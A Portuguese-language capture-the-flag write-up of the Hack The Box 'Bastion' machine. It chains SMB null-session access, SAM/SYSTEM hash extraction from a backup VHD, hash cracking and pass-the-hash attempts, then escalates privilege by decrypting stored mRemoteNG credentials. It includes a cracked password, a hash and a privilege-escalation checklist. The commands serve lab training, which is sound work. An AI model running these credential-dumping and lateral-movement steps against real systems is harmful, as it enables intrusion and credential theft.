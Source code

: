 Bastion
========================

    sudo nmap_enum bastion.htb | tee nmap_output.txt
    
    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn bastion.htb | tee nmap_udp_output.txt
    
    sudo nmap -p- -Pn -T5 -n bastion.htb | tee nmap_fullportstcp_output.txt
    
![qownnotes-media-FJOaiL](../../../media/qownnotes-media-FJOaiL.png)

![qownnotes-media-luXjvT](../../../media/qownnotes-media-luXjvT.png)

![qownnotes-media-GkFwSN](../../../media/qownnotes-media-GkFwSN.png)

    enum4linux -a -A 10.10.10.134
    
![qownnotes-media-VSNhGK](../../../media/qownnotes-media-VSNhGK.png)

![qownnotes-media-nCZeGr](../../../media/qownnotes-media-nCZeGr.png)

![qownnotes-media-HOVyEG](../../../media/qownnotes-media-HOVyEG.png)

![qownnotes-media-SZaKdX](../../../media/qownnotes-media-SZaKdX.png)

    smbclient -L //10.10.10.134

    smbclient -L //10.10.10.134 -U '' -N

O que chama a atenção é isso aqui ó:

![qownnotes-media-CMFgdQ](../../../media/qownnotes-media-CMFgdQ.png)

Com um comando funciona, mas com o outro não!
Mas já encontramos o ponto de partida:

NULL SESSION via SMB

# Exploitation

Para facilitar, montamos o share localmente na maquina com o seguinte comando:

    mount -t cifs //10.10.10.134/Backups /tmp/smb
    <ENTER>

![qownnotes-media-HVItYF](../../../media/qownnotes-media-HVItYF.png)

Com isso, da pra notar que existe uma maquina virtual armazenada neste share, entao temos de extrair os hashes de senha com isso. copiei a maquina para um diretorio local

![qownnotes-media-BdrtMj](../../../media/qownnotes-media-BdrtMj.png)

Agora, estou preparando a maquina para poder extrair o conteudo dos hashes de senha. Para tal, estou instalando uma ferramenta:
```
sudo apt install libguestfs-tools -y
sudo mkdir /mnt/tmp
guestmount --add /tmp/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/tmp
#isso nao funcionou. Tentei com root  
sudo guestmount --add /tmp/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/tmp
# So funcionou quando eu usei diretamente o do share mesmo desta forma:
```


```
sudo guestmount --add '/tmp/smb/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd' --inspector --ro -v /mnt/vhd
cp vhd/Windows/System32/config/SAM /home/acosta/Downloads
cp vhd/Windows/System32/config/SYSTEM /home/acosta/Downloads
impacket-secretsdump -sam SAM -system SYSTEM local

```
![qownnotes-media-DQPVtP](../../../media/qownnotes-media-DQPVtP.png)

Fiz alguns testes pra tentar shell com os hashes obtidos, mas sem chance:

    impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9 L4mpje@10.10.10.134
![qownnotes-media-tjcNBL](../../../media/qownnotes-media-tjcNBL.png)

![qownnotes-media-bRgbqo](../../../media/qownnotes-media-bRgbqo.png)

    evil-winrm -H 31d6cfe0d16ae931b73c59d7e0c089c0 -i 10.10.10.134 -u Administrator
    
Entao a solucao foi quebrar o hash de senha com o john

    cat hash.txt
    \26112010952d963c8dc4217daec986d9

![qownnotes-media-BYTebA](../../../media/qownnotes-media-BYTebA.png)

    john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt       
    
![qownnotes-media-bBinNC](../../../media/qownnotes-media-bBinNC.png)

    ssh L4mpje@10.10.10.134
    bureaulampje

L4mpje
`bureaulampje`

# Privilege Escalation

    whoami /all
    
    tasklist /svc
    
    systeminfo
    
![qownnotes-media-dJCqHC](../../../media/qownnotes-media-dJCqHC.png)

    netstat -na

![qownnotes-media-FethxA](../../../media/qownnotes-media-FethxA.png)

    schtasks /query /fo LIST /v

![qownnotes-media-Dzjrow](../../../media/qownnotes-media-Dzjrow.png)

Aqui vemos que so tem recursos do windows mesmo. Portanto temos que ir para um outra abordagem. 

    copy \\10.10.14.4\smb\PowerUp.ps1 pu.ps1
    powershell
    . .\pu.ps1
    invoke-allchecks
![qownnotes-media-wscwSg](../../../media/qownnotes-media-wscwSg.png)

Observe que essa DLL ai seria de um caminho do proprio usuario. Falso-positivo.

Em algumas oportunidades que consegui escalacao de privilegio nas maquinas eu notei que SeImpersonate e um cenario valido, no entanto tem varios outros que devo levar em consideracao, tais como 

1) Navegar nos diretorios do usuario para ver se existe algo ali que possa nos fornecer uma credencial ou algum bionario que inicie um servico/programa vulneravel a escalacao de privilegio
2) checar credenciais no registro do windows
3) checar programas instalados na maquina por meio do program files ou program files (x86)
4) checar os servicos que estao rodando na maquina para ver se temos permissao de alteracao em algum deles
5) checar as scheduleds tasks
6) verificar se existe algum servico rodando em localhost para exploracao de escalacao de privilegio
7) em sistemas mais antigos, explorar vulnerabilidades de kernel
8) Ja peguei cenarios em que uma maquina virtual estava instalada na maquina e foi possivel obter credenciais no historico desta mesma maquina
9) Rodar o powerUp para verificar se existe algum servico disponivel para exploracao com permissoes demais. Aqui temos que usar o accesschk
10)  Testes mais basicos como testar a propria credencial do suuario ja comprometido para o Administrator tambem pode

Mas aqui quando entramos no "C:\Program Files(x86)" encontramos um tal de mRemoteNG. e vajma so...

    searchsploit mRemoteNG

![qownnotes-media-tRIPwq](../../../media/qownnotes-media-tRIPwq.png)

Com o exploit abaixo eu descriptografei a senha do usuario administrator e sucesso:

<https://github.com/kmahyyg/mremoteng-decrypt/blob/master/mremoteng_decrypt.py>

![qownnotes-media-VaPnNH](../../../media/qownnotes-media-VaPnNH.png)


    git clone https://github.com/kmahyyg/mremoteng-decrypt.git
    python mremoteng-decrypt/mremoteng_decrypt.py -s "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
    
![qownnotes-media-vSakjO](../../../media/qownnotes-media-vSakjO.png)

    impacket-psexec Administrator@10.10.10.134

Sucesso
